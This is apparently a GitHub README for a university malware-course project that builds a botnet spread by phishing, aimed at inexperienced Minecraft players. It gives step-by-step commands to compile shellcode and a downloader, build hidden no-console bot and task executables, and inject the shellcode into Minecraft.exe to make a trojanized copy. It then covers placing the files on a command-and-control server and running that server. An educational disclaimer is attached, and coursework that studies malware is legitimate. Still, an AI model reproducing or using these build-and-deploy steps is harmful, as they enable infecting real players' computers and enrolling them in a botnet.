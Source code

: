 # MALW-MinecraftBotnet

MinecraftBotnet is a project develop to create an automated botnet which propagate though phishing emails. The target audience would be unexperienced people that plays Minecraft. This project was develop as Assignment during the Malware's subject of the Master's degree in Cybersecurity (UPC).

> [!CAUTION]
> **DISCLAIMER: This project was done for educational purposes. We are not responsible for the use you give it.**

## Structure

This project was divided in 5 sections that focuses in different aspects of the botnet guts.

1. [API](/API/): Simple webserver API which will provide all available files to be download and also shedule each machine, inside the botnet, to execute the desire tasks.
1. [InfectPE](/InfectPE/): This folder contains a self-version program which allows to inject shellcode into any executable via creating a new section. Original version [InfectPE](https://github.com/secrary/InfectPE).
1. [Malware](/Malware/): Main program that executes in the victim's computer.
1. [Payload](/Payload/): The shellcode script that will be injected into the executable and another c++ script, that will be downloaded by the shellcode, in charge of setting up the malware in victim's computer.
1. [Scripts](/Scripts/): This folder contains the task that is executed by the malware.

## Intruction:

### Compiling shellcode and mainDownloader
Maindownloader:
 > `$ cd /Payload`
 > `$ gcc -m32 MainDownloader.c -o MainDownloader.exe -lurlmon`
 > Now, you can place the generated executable inside [API downloads folder](/API/downloads).

Payload (shellcode):
 > `$ cd /Payload`
 > `$ ./ShellcodeCompiler_x64.exe -r payload.cpp -a _assembly.asm -p win_x86`
 > Inside the generated file `_assembly.asm` you must manually modify the assembly instruction to fix a bug. You must replace the instruction `mov eax, fs:[ecx + 0x30]` with `mov eax, [fs:ecx + 0x30]`.
 > `$ nasm -g -f win32 _assembly.asm -o _assembly.o`
 > `$ C:/MinGW/bin/ld.exe -g -mi386pe _assembly.o -o _assembly.exe`
 >
 > `$ objdump -d _assembly.exe`
 > - ¡Gitbash required or any alternative! *See tmp.txt file to see the desire output
 >
 > Paste the .text section inside tmp.txt file
 > `$ python dumpShellcode.py tmp.txt`

> [!TIP]
> You can use any other alternative to ouput the shellcode from an excutable.

> [!WARNING]
> We have encounter several errors with the gcc distribution, to compile the MainDownloader we have used the `LLVM` distribution. However, for the shellcode part we have used `MinGW` distribution.

> [!IMPORTANT]
> You will need gcc, gcc for mutiplatform (32 bits) and nasm installed.

### Compiling the tasks
 > `$ cd /Scripts`
 > `$ python -m PyInstaller --onefile --noconsole times.py`
 > Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Compiling the malware
 > `$ cd /Malware`
 > `$ python -m PyInstaller --onefile --noconsole botScript.py`
 > Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Infecting the Minecraft executable
 > Paste the shellcode generated previously inside the file `infectPE.cpp` - `char shellcode[] =`.
 >
 > `$ g++ -c PE.cpp -std=c++17`
 > `$ g++ -c InfectPE.cpp -std=c++17`
 > `$ g++ -o InfectPE.exe InfectPE.o PE.o`
 > `$ ./InfectPE.exe ./Minecraft/Minecraft.exe ./Minecraft/Minecraft_Infected.exe`
 > Now, you can place `./Minecraft/Minecraft_Infected.exe` inside [API downloads folder](/API/downloads).

## Running the Botnet server:
Before starting the server, remember to change the IP address depending on how you setup the network or the server itself (you could use directly `0.0.0.0:80`) inside `/API/BotnetAPI.py`.
 > `$ cd /API`
 > `$ python BotnetAPI.py`

> [!TIP]
> Theoretically, you can deploy to docker this API. However, it was tested for this project.

## Considerations

As the configuration varies from one computer/VM to another, the IP's may vary as well. For that reason, you should replace any IP from the Payload, MainDownloader or Malware scripts.